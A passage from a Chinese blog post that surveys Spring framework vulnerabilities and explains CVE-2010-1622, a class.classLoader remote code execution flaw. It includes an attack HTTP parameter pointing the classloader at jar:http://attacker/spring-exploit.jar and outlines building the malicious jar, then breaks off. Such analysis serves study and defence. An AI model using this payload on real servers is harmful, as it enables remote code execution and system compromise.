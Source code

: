 # Spring 框架漏洞集合 ~ Misaki's Blog
虽说是Spring框架漏洞，但以下包含并不仅Spring Framework，Spring Boot，还有Spring Cloud，Spring Data，Spring Security等。

### [](#CVE-2010-1622-Spring-Framework-class-classLoader类远程代码执行 "CVE-2010-1622 Spring Framework class.classLoader类远程代码执行")CVE-2010-1622 Spring Framework class.classLoader类远程代码执行

影响版本：SpringSource Spring Framework 3.0.0 - 3.0.2、SpringSource Spring Framework 2.5.0 - 2.5.7

Spring框架提供了一种机制，该机制使用客户端提供的数据来更新对象属性。这个机制允许攻击者修改用于加载对象的类加载器的属性（通过’class.classloader’）。这可能导致任意命令执行，例如，攻击者可以修改URL。由类加载器用来指向攻击者控制的位置。

```


1.  `示例：`
2.  `POST /adduser HTTP/1.0`
3.  `...`
4.  `firstName =  Tavis&lastName =  Ormandy`

6.  `如果Person是表单的支持对象，则firstName和lastName属性将设置为相应的值。为了支持更复杂的类，Spring还支持点表示法，因此user.address.street =  Disclosure  +  Str。将等效于：`

8.  `frmObj.getUser().getAddress().setStreet("Disclosure Str.")` 
9.  `问题是Spring  Beans的CachedIntrospectionResults类枚举了可从用户表单提交中设置的属性，使用 java.beans.Introspector.getBeanInfo()而不指定停止类，这意味着' class '属性及其后的所有内容均可用于HTTP请求中的设置。`

11.  `攻击`
12.  `如果攻击者使用以下HTTP参数向表单控制器提交HTTP请求：`
13.  `POST /adduser HTTP/1.0`
14.  `...`
15.  `class.classLoader.URLs[0]  = jar:http://attacker/spring-exploit.jar!`

17.  `她将  使用自己的网址覆盖frmObj.getClass().getClassLoader().getURLs()  返回的数组中的第0个元素.`
18.  `它将是哪个类加载器？`
19.  `在Apache  Tomcat上的情况下，它指org.apache.catalina.loader.WebappClassLoader`


```

如何构造这个jar，需要包含以下信息：

```


1.  `- META-INF/spring-form.tld -  定义spring表单标签并指定实现为标签文件而不是类`
2.  `- META-INF/tags/中的标签文件，包含有标签定义（任意Java代码）`


```

/META-INF/spring-form.tld文件：
